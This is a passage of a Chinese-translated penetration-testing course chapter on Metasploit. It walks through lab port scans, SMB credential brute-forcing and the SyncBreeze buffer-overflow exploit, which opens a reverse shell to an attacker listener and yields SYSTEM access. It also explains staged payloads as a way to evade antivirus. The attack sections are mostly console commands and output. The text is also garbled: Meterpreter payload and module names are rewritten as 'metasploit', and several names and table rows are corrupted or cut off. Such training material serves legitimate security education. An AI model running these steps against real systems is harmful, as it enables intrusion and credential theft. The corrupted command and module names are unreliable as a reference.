列表 729 - 手动启动 `postgresql`

接下来，我们可以使用 `systemctl` 在启动时启用该服务，如下所示：

```bash
kali@kali:~$ sudo systemctl enable postgresql
```
列表 730 - 在启动时运行 `postgresql`

数据库启动后，我们需要使用 `msfdb init` 创建并初始化 `MSF` 数据库，如下所示。

```bash
kali@kali:~$ sudo msfdb init
```


[+] Creating database user 'msf'

[+] Creating databases 'msf'

[+] Creating databases 'msf_test'

[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'

[+] Creating initial database schema

列表 731 - 创建 Metasploit 数据库

由于 Metasploit 处于持续开发中，我们应尽可能经常更新它。在 Kali 中，我们可以使用 `apt` 更新 Metasploit。

```bash
kali@kali:~$ sudo apt update; sudo apt install metasploit-framework
```

列表 732 - 更新 Metasploit 框架

我们可以使用 `msfconsole` 启动 Metasploit 命令行界面。`-q` 选项会隐藏 ASCII 艺术横幅和 Metasploit 框架版本输出，如列表 733 所示。

```bash
kali@kali:~$ sudo msfconsole -q

msf5 > 
```

列表 733 - 启动 Metasploit 框架

## 22.1.1 熟悉 MSF 语法

Metasploit 框架包含数千个模块，分为多个类别。这些类别显示在启动屏幕摘要中，但我们可以使用 `show -h` 命令查看它们。

```bash
msf5 > show -h

[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options

[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
```

列表 734 - `show` 命令的帮助标志

要激活一个模块，请输入 `use` 后跟模块名称（如下例中的 `auxiliary/scanner/portscan/tcp`）。此时，提示符将显示活动的模块。我们可以使用 `back` 退出当前上下文并返回到主 `msf5` 提示符：

```bash
msf5 > use auxiliary/scanner/portscan/tcp

msf5 auxiliary(scanner/portscan/tcp) > back

msf5 >
```

列表 735 - Metasploit `use` 和 `back` 命令

`back` 的一种变体是 `previous`，它会将我们切换回之前选择的模块，而不是主提示符：

```bash
msf5 > use auxiliary/scanner/portscan/tcp

msf5 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/portscan/syn

msf5 auxiliary(scanner/portscan/syn) > previous

msf5 auxiliary(scanner/portscan/tcp) >
```

列表 736 - Metasploit `previous` 命令

大多数模块在运行前都需要选项（`show options`）。我们可以使用 `set` 和 `unset` 配置这些选项，也可以使用 `setg` 或 `unsetg` 分别设置和删除 `全局选项`。

```bash
msf5 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):
```

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| CONCURRENCY | 10 | 是 | 每个...要检查的并发端口数量 |
| DELAY | 0 | 是 | 每个线程的连接延迟... |
| JITTER | 0 | 是 | 延迟抖动因子（w 的最大值...） |
| PORTS | 1–10000 | 是 | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | | 是 | 目标地址范围或 CIDR 标识... |
| THREADS | 1 | 是 | 并发线程的数量... |
| TIMEOUT | 1000 | 是 | 以毫秒为单位的套接字连接超时... |

列表 737 - `auxiliary/scanner/tcp` 模块的选项

例如，要使用 `scanner/portscan/tcp` 模块扫描我们的 Windows 工作站，我们必须首先使用 `set` 命令设置远程主机 IP 地址（`RHOSTS`）。

```bash
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.11.0.22

RHOSTS => 10.11.0.22
```

列表 738 - 设置 RHOSTS 选项

配置好模块后，我们可以 `run` 它：

[705] (Rapid7, 2018). https://www.metasploit.com/
[706] (Core Security, 2018). https://www.coresecurity.com/core-impact
[707] (Immunity, 2018). https://www.immunityinc.com/products/canvas/
[708] (Strategic Cyber LLC, 2018). https://blog.cobaltstrike.com/category/cobalt-strike-2/
[709] (Veris Group, 2015). https://www.powershell.empire.com/
[710] (Rapid7, 2019). https://www.rapid7.com/
[711] (ThreatPost, 2010). https://threatpost.com/qa-hd-modeme-metasploit-disclosure-and-ethics-052010/7399/

## 22.1.2 Metasploit 数据库访问

如果 `postgresql` 服务正在运行，Metasploit 会将发现的结果以及关于已发现的宿主、服务或凭据的信息记录在一个方便且易于访问的数据库中。

在下例中，数据库已填充了我们在上一节中运行的 TCP 扫描结果。我们可以使用 `services` 命令显示这些结果：

```
msf5 auxiliary(scanner/portscan/tcp) > services

Services
=======

host              port proto name state info
----              ---- ----  ---- ----  ----

10.11.0.22        80    tcp        open
10.11.0.22        135   tcp        open
10.11.0.22        139   tcp        open
10.11.0.22        445   tcp        open
10.11.0.22        3389  tcp        open
10.11.0.22        5040  tcp        open
10.11.0.22        9121  tcp        open
```

> 列表 740 - 数据库中的 TCP 端口扫描结果

基本的 `services` 命令会显示所有结果，但正如 `services -h` 的帮助输出所示，我们还可以按端口号（`-p`）、服务名称（`-s`）等进行过滤。

```
msf5 > services -h

Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]

-a,--add              Add the services instead of searching

-d,--delete           Delete the services instead of searching

-c <col1,col2>         Only show the given columns

-h,--help             Show this help information
```


`-s <name>` Name of the service to add

`-p <port>` Search for a list of ports

`-r <protocol>` Protocol type of the service being added `[tcp|udp]`

`-u,--up` Only show services which are up

`-o <file>` Send output to a file in csv format

`-0 <column>` Order rows by specified column number

```
| 选项 | 描述 |
|---|---|
| -R, --rhosts | 根据搜索结果设置 RHOSTS |
| -S, --search | 用于过滤的搜索字符串 |
| -U, --update | 更新现有服务的数据 |
```

*列表 741 - services 命令的帮助菜单*

除了简单的 TCP 端口扫描器，我们还可以使用 `db_nmap` 封装器在 Metasploit 内部执行 Nmap，并将结果保存到数据库中以便轻松访问。`db_nmap` 命令的语法与 Nmap 相同，如下所示：

```
msf5 > db_nmap

[*] Usage: db_nmap [--save | [--help | -h]] [nmap options]

msf5 > db_nmap 10.11.0.22 -A -Pn

[*] Nmap: Nmap scan report for 10.11.0.22

[*] Nmap: Host is up (0.00054s latency).

[*] Nmap: Not shown: 996 closed ports

[*] Nmap: PORT STATE SERVICE VERSION

[*] Nmap: 80/tcp open http

[*] Nmap: |_http-generator: Flenxse HTTP v10.0.28

[*] Nmap: |_http-title: Sync Breeze Enterprise & Client251

[*] Nmap: 135/tcp open msrpc Microsoft Windows RPC

[*] Nmap: 139/tcp open netbios-ssn Microsoft Windows netbios-ssn

[*] Nmap: 445/tcp open microsoft-ds?

[*] Nmap: 3389/tcp open ms-wbt-server Microsoft Terminal Services

...
```

*列表 742 - 在 Metasploit 内部执行 Nmap 扫描*

要显示到目前为止发现的所有宿主，我们可以发出 `hosts` 命令。作为额外的示例，我们还可以使用 `services -p 445` 命令列出端口 445 上运行的所有服务。

```
msf5 > hosts

Hosts

=====

address mac name os_name os_flavor os_sp purpose

----- ---- ---- ------- -------- ---- -------

10.11.0.22 00:0c:29:ae:3e:22 Windows Longhorn

msf5 > services -p 445

Services

=======

host port proto name state info

---- ---- ----- ----- ----- ----

10.11.0.22 445 tcp microsoft-ds open ()
```

*列表 743 - 列出数据库中的宿主和服务*

为了帮助组织数据库中的内容，Metasploit 允许我们将信息存储在不同的工作区中。指定工作区时，我们只会看到与该工作区相关的数据库条目，这有助于我们轻松管理来自各种枚举任务和分配的数据。我们可以使用 `workspace` 命令列出可用的工作区，或者提供工作区名称作为参数以切换到不同的工作区，如列表 744 所示。


```
msf5 > workspace

test

* default

msf5 > workspace test

[*] Workspace: test

msf5 >
```

列表 744 - Metasploit Framework 中的工作区

要添加或删除工作区，我们可以分别使用 `-a` 或 `-d`，后跟工作区名称。

### 22.1.3 辅助模块

Metasploit Framework 包含数百个辅助模块，提供协议枚举、端口扫描、模糊测试、嗅探等功能。所有模块都遵循通用的斜杠分隔的层次结构语法（模块类型/os, 供应商, 应用或协议/模块名称），这使得探索和模块使用变得容易。辅助模块对于许多任务都很有用，包括信息收集（在 `gaffer` 层次结构下）、扫描和枚举各种服务（在 `scanner/` 层次结构下）等。

这里无法涵盖所有内容，但我们将演示一些最常见辅助模块的语法和操作。作为一项练习，探索其他辅助模块，因为它们是 Metasploit Framework 中无价的一部分。

要列出所有辅助模块，我们运行 `show auxiliary` 命令。这将呈现一个非常长的所有辅助模块列表，如下面的截断输出所示：

```
msf5 > show auxiliary

Auxiliary

=======

Name                        Rank    Description

----                        ----    -----------

scanner/smb/smb1            normal  SMBv1 Protocol Detection

scanner/smb/smb2            normal  SMB 2.0 Protocol Detection

scanner/smb/smb_enumshares  normal  SMB Share Enumeration

scanner/smb/smb_enumerusers normal  SMB User Enumeration (SAM EnumUsers)

scanner/smb/smb_enumerusers_domain normal  SMB Domain User Enumeration

scanner/smb/smb_login       normal  SMB Login Check Scanner

scanner/smb/smb_lookupsid   normal  SMB SID User Enumeration (LookupSid)

scanner/smb/smb_ms17_010    normal  MS17-010 SMB RCE Detection

scanner/smb/smb_version     normal  SMB Version Detection

... (truncated) ...
```

列表 745 - 列出所有辅助模块

我们可以使用 `search` 来减少大量的输出，按应用、类型、平台等进行过滤。例如，我们可以使用 `search type:auxiliary name:smb` 搜索 SMB 辅助模块，如下面的列表所示。

```
msf5 > search -h

Usage: search [ options ] <keywords>
```

OPTIONS:
- `-h` Show this help information
- `-o <file>` Send output to a file in csv format
- `-S <string>` Search string for row filter

Keywords:
- `aka` : Modules with a matching AKA (also-known-as) name
- `author` : Modules written by this author
- `arch` : Modules affecting this architecture
- `bid` : Modules with a matching Bugtraq ID
- `cve` : Modules with a matching CVE ID
- ...
- `target` : Modules affecting this target
- `type` : Modules of a specific type (exploit, payload, auxiliary, encoder, eva

Examples:
`search cve:2009 type:exploit`


msf5 > search type:auxiliary name:smb

```
Matching Modules

| Name | Rank | Description |
|---|---|---|
| auxiliary/admin/oracle/ora_ntlm_stealer | normal | Oracle SMB Relay Code Execution |
| auxiliary/admin/smb/check_dir_file | normal | SMB Scanner Check File/Directory |
| auxiliary/admin/smb/delete_file | normal | SMB File Delete Utility |
| auxiliary/admin/smb/download_file | normal | SMB File Download Utility |
```

列表 746 - 搜索 SMB 辅助模块

在使用 `use` 调用模块后，我们可以按如下方式请求关于它的更多信息：

```
msf5 > use scanner/smb/smb2

msf5 auxiliary(scanner/smb/smb2) > info

Name: SMB 2.0 Protocol Detection

Module: auxiliary/scanner/smb/smb2

License: Metasploit Framework License (BSD)

Rank: Normal

Provided by:

  hdm <x@hdm.io>

Check supported:

  Yes
```

| Option | Current Setting | Required | Description |
|---|---|---|---|
| RHOSTS |  | yes | 目标地址范围或 CIDR 标识符 |
| RPORT | 445 | yes | 目标端口（TCP） |
| THREADS | 1 | yes | 并发线程数 |

### 22.1.3 辅助模块
#### 描述
检测支持 SMB 2.0 协议的系统

*列表 747 - 显示有关 SMB 模块的信息*

通过 `info` 命令的模块描述，我们知道 `smb2` 模块的用途是检测远程机器是否支持 SMB 2.0 协议。该模块的 `基本选项（Basic options）` 参数可以通过执行 `show options` 命令进行检查。对于这个特定的模块，我们只需要设置目标 IP 地址，在本例中是作为学生的 Windows 10 机器。

或者，既然我们已经扫描了 Windows 10 机器，我们可以搜索 Metasploit 数据库中以 TCP 端口 445 开放的 `services -p 445` 的主机，并将结果自动添加到 `RHOSTS` 中（`-rhosts`）：

```
msf5 auxiliary(scanner/smb/smb_version) > services -p 445 -rhosts

Services

======

host    port  proto  name          state    info

----    ----  -----  ----          -----    ----

10.11.0.22    445   tcp    microsoft-ds open    ()

RHOSTS => 10.11.0.22

msf5 auxiliary(scanner/smb/smb_version) > 
```

*列表 748 - 从数据库加载 IP 地址*

配置好所需参数后，我们可以使用 `run` 或 `exploit` 命令启动模块：

```
msf5 auxiliary(scanner/smb/smb2) > run

[+] 10.11.0.22:445   - 10.11.0.22 supports SMB 2 [dialect 255.2] and has been online f

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed
```

*列表 749 - 运行辅助模块*

根据模块的输出结果，远程计算机确实支持 SMB 版本 2。利用这一点，我们可以使用 `scanner/smb/smb_login` 模块尝试对该机器进行暴力破解登录。加载该模块并列出选项将产生以下输出：

```
msf5 auxiliary(scanner/smb/smb_enumerators_domain) > use scanner/smb/smb_login

msf5 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

Name              Current Setting     Required  Description

----              ---------------     --------  -----------

ABORT_ON_LOCKOUT  false               yes       Abort the run when an account lockout is

BLANK_PASSWORDS   false               no        Try blank passwords for all users

BRUTEFORCE_SPEED  5                   yes       How fast to bruteforce, from 0 to 5

DB_ALL_CREDS     false               no        Try each user/password couple stored in

DB_ALL_PASS       false               no        Add all passwords in the current database

DB_ALL_USERS      false               no        Add all users in the current database to

DETECT_ANY_AUTH   false               no        Enable detection of systems accepting an

DETECT_ANY_DOMAIN false               no        Detect if domain is required for the spe

PASS_FILE         (blank)             no        File containing passwords, one per line

PRESERVE_DOMAINS  true                no        Respect a username that contains a domai

Proxies           (blank)             no        A proxy chain of format type:host:port[:

RECORD_GUEST      false               no        Record guest-privileged random logins to

RHOSTS            (blank)             yes       The target address range or CIDR identif

RPORT             445                 yes       The SMB service port (TCP)

SMBDomain         .                   no        The Windows domain to use for authenticia

SMBPass           (blank)             no        The password for the specified username

SMBUser           (blank)             no        The username to authenticate as

STOP_ON_SUCCESS   false               yes       Stop guessing when a credential works fo

THREADS           1                   yes       The number of concurrent threads
```


USERPASS_FILE     (blank)             no        File containing users and passwords sepa

USER_AS_PASS      false               no        Try the username as the password for all

USER_FILE         (blank)             no        File containing usernames, one per line

VERBOSE           true                yes       Whether to print output for all attempts

*列表 750 - 加载 smb_login 模块并列出选项*

输出结果显示，该模块接受必需参数（如 `RHOSTS`）和可选参数（如 `SMBDomain`）。然而，我们注意到尽管我们在之前的 smb2 模块中设置了它，但 `RHOSTS` 并未设置。这是因为 `set` 命令只在当前运行模块的作用域内定义参数。相反，我们可以使用 `setg` 命令设置全局参数，该参数在所有模块中可用。

> 我们经常在辅助模块中更改的一个参数是 `THREADS`。该参数告诉框架为运行模块启动多少个线程，从而增加并发度和速度。我们不希望这个数字过于极端，但适度的增加会显著缩短运行时间。

为了进行演示，假设我们在评估过程中发现了有效的域凭据。我们想要确定这些凭据是否可以重用于其他开放了 TCP 445 端口的服务器。为了简单起见，我们将在我们的 Windows 客户端上尝试这种方法，从一个无效的密码开始。

我们将从提供有效的域名 `corp.com`、有效的用户名 `Offsec`、*无效*的密码 `ABCDEFG123!` 以及 Windows 10 目标的 IP 地址开始。

```
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain corp.com

SMBDomain => corp.com

msf5 auxiliary( scanner/smb/smb_login) > set SMBUser Offsec

SMBUser => Offsec

msf5 auxiliary( scanner/smb/smb_login) > set SMBPass ABCDEFG123!

SMBPass => ABCDEFG123!

msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 10.11.0.22

RHOSTS => 10.11.0.22

msf5 auxiliary(scanner/smb/smb_login) > set THREADS 10

THREADS => 10

msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login brute force

[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit

[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'corp.com|Offsec:ABCDEFG123!!',

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed
```

*列表 751 - 尝试 SMB 登录*

由于我们知道提供的密码是无效的，登录如预期般失败。现在，让我们尝试提供一个有效的密码并重新运行该模块。

```
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass Qwerty09!

SMBPass => Qwerty09!

msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login brute force

[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit

[*] 10.11.0.22:445 - 10.11.0.22:445 - Success: 'corp.com|Offsec:Qwerty09!' Administr ator

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed
```

*列表 752 - 使用有效凭据尝试 SMB 登录*

这次，身份验证成功了。我们可以使用 `creds` 命令从数据库中检索有关成功登录尝试的信息。

```
msf5 > creds

Credentials

=========
```

| 主机 | 来源 | 服务 | 公开 | 私有 | 域 | 私有类型 |
|------|------|------|------|------|----|----------|
| 10.11.0.22 | 10.11.0.22 | 445/tcp (Microsoft-ds) | Offsec | Qwerty09! | corp.com | 密码 |

*列表 753 - 列出所有发现的凭据*

虽然这次运行成功了，但这种方法的可扩展性较差。为了测试包含多种密码的更大用户群，我们可以使用 `USERPASS_FILE` 参数，该参数指示模块使用一个包含以空格分隔的用户名和密码的文件，每行一对。

```
msf5 auxiliary(scanner/smb/smb_login) > set USERPASS_FILE /home/kali/users.txt

USERPASS_FILE => /home/kali/users.txt

msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login brute force

[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'bob:Qwerty09!',

[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'bob:password',

[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'alice:Qwerty09!',

[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'alice:password',

[*] 10.11.0.22:445 - 10.11.0.22:445 - Success: '\office$Qwerty09!'

[*] 10.11.0.22:445 - Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed
```

*列表 754 - 使用用户名和密码文件暴力破解 SMB 登录*

让我们尝试另一个模块。在这个例子中，我们将尝试识别监听 TCP 3389 端口的机器，这表明它们可能接受远程桌面协议 (RDP) 连接。为此，我们将调用 `scanner/rdp/rdp_scanner` 模块。

```
msf5 auxiliary(scanner/smb/smb_login) > use scanner/rdp/rdp_scanner

msf5 auxiliary(scanner/rdp/rdp_scanner) > show options

Module options (auxiliary/scanner/rdp/rdp_scanner):

Name        Current Setting   Required  Description

----        ---------------   --------  -----------

CredSSP     true              yes       Whether or not to request CredSSP

EarlyUser   false             yes       Whether to support Earlier User Authorization Re

RHOSTS      (blank)           yes       The target address range or CIDR identifier


`RPORT`       3389              yes       The target port (TCP)

`THREADS`     1                 yes       The number of concurrent threads

`TLS`         true              yes       Whether or not request TLS security

```
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.11.0.22

RHOSTS => 10.11.0.22

msf5 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 10.11.0.22:3389 - Detected RDP on 10.11.0.22:3389

[*] 10.11.0.22:3389 - Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed
```

*列表 755 - 识别远程桌面协议端点*

该模块成功检测到一台主机正在运行 RDP，并自动将结果添加到数据库中。

### 22.1.3.1 练习
- 1. 启动 postgresql 服务并启动 `msfconsole`。
- 2. 使用 SMB、HTTP 以及其他感兴趣的辅助模块扫描实验室系统。
- 3. 在数据库中审查主机信息。

### 22.2 利用模块

现在我们已经熟悉了基本的 MSF 用法和几个辅助模块，让我们更深入地探讨 MSF 的核心部分：利用模块。

利用模块通常包含针对易受攻击的应用和服务的利用代码。在撰写本文时，Metasploit 包含超过 1700 个利用程序，每一个都经过精心开发和测试，以成功利用各种易受攻击的服务。这些利用程序的调用方式与辅助模块非常相似。

#### 22.2.1 SyncBreeze Enterprise

为了开始探索利用模块，我们将专注于一个我们反复滥用的服务：SyncBreeze。在这一节中，我们将搜索与安装在 Windows 10 工作站上的 SyncBreeze Enterprise 应用程序相关的漏洞利用模块，然后使用 MSF 进行利用。首先，我们将使用 `search` 命令：

```
msf5 > search syncbreeze

Matching Modules
================

Name                      Disclosure Date   Rank    Description
----                      -----------------   ----    -----------
exploit/windows/fileformat/syncbreeze_xml   2017-03-29        normal  Sync Breeze Enterprise 9.5.16 – Import Command Buffer Overflow
exploit/windows/http/syncbreeze_bof         2017-03-15        great   Sync Breeze Enterprise GET Buffer Overflow
```


输出显示了两个特定的利用模块。我们将关注 10.0.28 版本，并请求关于该特定模块的 `info` 信息。

```
msf5 > info exploit/windows/http/syncbreeze_bof

    Name: Sync Breeze Enterprise GET Buffer Overflow

    Module: exploit/windows/http/syncbreeze_bof

    Platform: Windows

    Arch:

    Privileged: Yes

    License: Metasploit Framework License (BSD)

    Rank: Great

    Disclosed: 2017-03-15

Provided by:

    Daniel Teixeira

    Andrew Smith

    Owais Mehtab

    Milton Valencia (wgtw0rk)

Available targets:

    Id  Name

    --  ----

     0   Automatic

     1   Sync Breeze Enterprise v9.4.28

     2   Sync Breeze Enterprise v10.0.28

     3   Sync Breeze Enterprise v10.1.16

Basic options:

    Name  Current Setting  Required  Description

    ----  ---------------  --------  -----------

    Proxies                no        A proxy chain of format type:host:port[,type:host:port]... 

    RHOST                   yes      The target address

    RPORT   80             yes       The target port (TCP)

    SSL     false          no        Negotiate SSL/TLS for outgoing connections

    HTTP server virtual host      no
```

负载信息：

空间：500

避免：6 个字符

描述：

此模块利用 Sync Breeze Enterprise v9.4.28、v10.0.28 和 v10.1.16 的 Web 界面中存在的基于栈的缓冲区溢出漏洞。该漏洞是由于向内置 Web 服务器发送的 HTTP GET 和 POST 请求中的不当边界检查造成的。该模块已在 Windows 7 SP1 x86 上成功测试。

根据模块描述和可用目标，这确实似乎是与我们在 Windows 10 实验机器上的目标匹配的漏洞利用模块。漏洞利用模块需要指定负载。如果我们不设置此项，模块将选择默认负载。默认负载可能不是我们想要或预期的，因此为了保持对利用过程的紧密控制，最好显式设置我们的选项。

要检索与当前选定的漏洞利用模块兼容的所有负载列表，我们运行 `show payloads`，如清单 758 所示。

```
msf5 > use exploit/windows/http/syncbreeze_bof

msf5 exploit(windows/http/syncbreeze_bof) > show payloads
```

Compatible Payloads
==================
Name Rank Description
------ ---
... 
windows/shell_bind_tcp normal Windows Command Shell, Bind TCP Inli
windows/shell_hidden_bind_tcp normal Windows Command Shell, Hidden Bind T
windows/shell_reverse_tcp normal Windows Command Shell, Reverse TCP I
windows/speak_pwmed normal Windows Speech API - Say "You Got Pw
windows/upexec/bind_hidden_ipknock_tcp normal Windows Upload/Execute, Hidden Bind

例如，我们可以使用 `set payload` 指定一个标准的反向 shell 负载（`windows/shell_reverse_tcp`），并使用 `show options` 列出选项。

```
msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/shell_reverse_tcp

payload => windows/shell/reverse_tcp

msf5 exploit(windows/http/syncbreeze_bof) > show options
```


模块选项 (`exploit/windows/http/syncbreeze_bof`)：

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| Proxies | 无 | 代理链，格式为 type:host:port[,type:host:port]... |
| RHOST | | 是 | 目标地址 |
| RPORT | 80 | 是 | 目标端口 (TCP) |
| SSL | 假 | 否 | 为出站连接协商 SSL/TLS |
| HTTP 服务器虚拟主机 | | 否 | |

负载选项 (`windows/shell_reverse_tcp`)：

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| EXITFUNC | thread | 是 | 退出技术 (接受: '', seh, thread, pro |
| LHOST | | 是 | 监听地址 |
| LPORT | 4444 | 是 | 监听端口 |

利用目标：

| Id | 名称 |
|---|---|
| 0 | 自动 |

清单 759 - 选择负载

负载设置下方的“Exploit target”部分列出了易受此漏洞利用影响的操作系统或软件版本。对于像 SyncBreeze 中发现的那种普通栈溢出，这些设置基本上等同于适合受影响软件不同操作系统版本或环境的不同的返回地址。在这个漏洞利用模块中，针对我们的 SyncBreeze 版本的单个静态返回地址适用于多个版本的 Windows。在其他漏洞利用中，我们通常需要使用 `set target` 设置目标以匹配我们要利用的环境。

通过为漏洞利用设置反向 shell 负载，Metasploit 自动添加了一些新的“负载选项”，包括 `LHOST`（监听主机）和 `LPORT`（监听端口），它们对应反向 shell 将连接的主机 IP 地址和端口。注意 `LPORT` 设置为默认值 `4444`，这对我们的目的来说没有问题。让我们继续设置 `LHOST` 和 `RHOST`，分别定义我们的攻击主机和目标主机。

```
msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 exploit(windows/http/syncbreeze_bof) > set RHOST 10.11.0.22

RHOST => 10.11.0.22
```

清单 760 - 配置必需参数

在将 `LHOST` 设置为我们的 Kali IP 地址，将 `RHOST` 设置为 Windows 主机 IP 地址后，我们可以使用 `check` 来验证目标主机和应用是否易受攻击。请注意，只有当目标应用暴露某种横幅或其他可识别的数据时，此检查才有效。

```
msf5 exploit(windows/http/syncbreeze_bof) > check

[*] 10.11.0.22:80 - 目标似乎易受攻击。
```

清单 761 - 检查目标是否易受攻击

在确认目标易受攻击后，现在只剩下使用下方显示的 `exploit` 命令运行漏洞利用程序。

```
msf5 exploit(windows/http/syncbreeze_bof) > exploit

[*] 在 10.11.0.4:4444 上启动了反向 TCP 处理器

[*] 正在自动检测目标...

[*] 目标是 10.0.28

[*] 正在发送请求...

[*] 已打开命令 shell 会话 1 (10.11.0.4:4444 -> 10.11.0.22:50195)

Microsoft Windows [版本 10.0.16299.248]

(c) 2017 Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami

whoami

nt authority\system
```

清单 762 - 执行漏洞利用

注意，当执行漏洞利用时，Metasploit 会自动创建一个负载监听器，从而无需使用 Netcat。执行完成后，会创建一个会话，并且反向 shell 可供我们使用。

### 22.2.1.1 练习

- 使用现有的 Metasploit 模块利用 SyncBreeze。

## 22.3 Metasploit 负载

到目前为止，我们只利用了 `windows/shell_reverse_tcp`，这是一种简单且独立的反向 shell。Metasploit 包含除基本 shell 之外的许多其他类型的负载。让我们现在看看其中的一些。

### 22.3.1 分阶段与非分阶段负载

在深入具体的 shellcode 功能之前，我们必须讨论 *staged*（分阶段）和 *non-staged*（非分阶段）shellcode 之间的区别，正如这两个负载的描述所示：

```
windows/shell_reverse_tcp - 连接回攻击者并生成命令 shell

windows/shell/reverse_tcp - 连接回攻击者，生成 cmd shell (staged)
```

清单 763 - 分阶段与非分阶段负载的语法

这些负载之间的区别微妙但很重要。非分阶段负载是与漏洞利用程序一起完整发送的。相比之下，分阶段负载通常分为两部分发送。第一部分包含一个小的主要负载，该负载导致受害机器连接回攻击者，传输包含其余 shellcode 的较大次要负载，然后执行它。

有几种情况我们更倾向于使用分阶段 shellcode 而不是非分阶段。如果我们要利用的漏洞没有足够的缓冲区空间来容纳完整负载，那么分阶段负载可能是合适的。由于分阶段负载的第一部分通常小于完整负载，这些较小的初始负载可能有助于我们在空间受限的情况下。此外，我们需要牢记，防病毒软件通常会在漏洞利用程序中检测到嵌入的 shellcode。通过将该代码替换为分阶段负载，我们移除了 shellcode 恶意部分的一大部分，这可能会增加我们的成功率。在漏洞利用程序执行初始阶段之后，剩余的负载将被检索并直接注入到受害机器的内存中。


请注意，在 Metasploit 中，“/”字符用于表示载荷是否分为阶段（staged），因此 “shell_reverse_tcp” 不是分阶段载荷，而 “shell/reverse_tcp” 是。

## 22.3.2 Metasploit 载荷

正如 Metasploit 网站所述，Metasploit Meterpreter 是一种多功能载荷，可以在运行时动态扩展。实际上，这意味着 Metasploit shell 提供了比普通命令 shell 更多的特性和功能，例如文件传输、按键记录以及与受害机器交互的各种其他方法。这些工具在后期利用阶段特别有用。由于 Metasploit 的灵活性和功能，它是最受欢迎且最常用的 Metasploit 载荷。

搜索“metasploit”关键字会返回一长串结果，但如果将搜索范围缩小到载荷类别，则会显示适用于多种操作系统和架构的 metasploit 版本，包括 Windows、Linux、Android、Apple iOS、FreeBSD 和 Apple OS X/macOS。

```
msf5 > search metasploit type:payload

Matching Modules

=================

#  Name                                        Description

-

1  payload/android/metasploit/reverse_http     Android Metasploit, Android

2  payload/android/metasploit/reverse_https    Android Metasploit, Android

3  payload/android/metasploit/reverse_tcp      Android Metasploit, Android

4  payload/android/metasploit/reverse_http     Android Metasploit Shell, R

5  payload/android/metasploit/reverse_https    Android Metasploit Shell, R

6  payload/android/metasploit/reverse_tcp      Android Metasploit Shell, R

7  payload/apple_ios/aarch64/metasploit/reverse_http    Apple iOS Metasploit, Rever

8  payload/apple_ios/aarch64/metasploit/reverse_https   Apple iOS Metasploit, Rever
```


9 `payload/apple_ios/aarch64/metasploit/reverse_tcp`     Apple iOS Metasploit, Rever

10 `payload/apple_ios/armle/metasploit/reverse_http`      Apple iOS Metasploit, Rever

...

### 列表 764 - 搜索 Metasploit 载荷

有大量基于特定编程语言（Python、PHP、Java）、协议和传输方式（UDP、HTTPS、IPv6 等）以及其他各种规格（32 位与 64 位、分阶段与非分阶段等）的 Metasploit 版本。

例如，下面列出了一小部分 Windows 反向 Metasploit 载荷：

```
payload/windows/metasploit/reverse_udp     normal    Reverse UDP Stager with UUID Sup

payload/windows/metasploit/reverse_http    normal    Windows Reverse HTTP Stager

payload/windows/metasploit/reverse_https   normal    Windows Reverse HTTPS Stager

payload/windows/metasploit/reverse_tcp     normal    Reverse TCP Stager (IPv6)

payload/windows/metasploit/reverse_tcp     normal    Reverse TCP Stager
```

### 列表 765 - Metasploit 反向协议版本

> [712] (Rapid7, 2017). https://github.com/rapid7/metasploit-framework/wiki/Metasploit

我们可以使用 `set` 命令选择特定的 meterpreter 载荷，并像配置标准反向 shell 载荷一样对其进行配置：

```
msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/meterpreter/reverse_http

payload => windows/meterpreter/reverse_http

msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 exploit(windows/http/syncbreeze_bof) > show options

...
```

载荷选项 (`windows/meterpreter/reverse_http`)：

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| EXITFUNC | thread | yes | 退出技术 (Accepted: '', seh, thread, process, abort) |
| LHOST | 10.11.0.4 | yes | 本地监听器主机名 |
| LPORT | 4444 | yes | 本地监听器端口 |
| LURI | / | no | HTTP 路径 |

### 列表 766 - 选择 meterpreter 载荷并配置选项

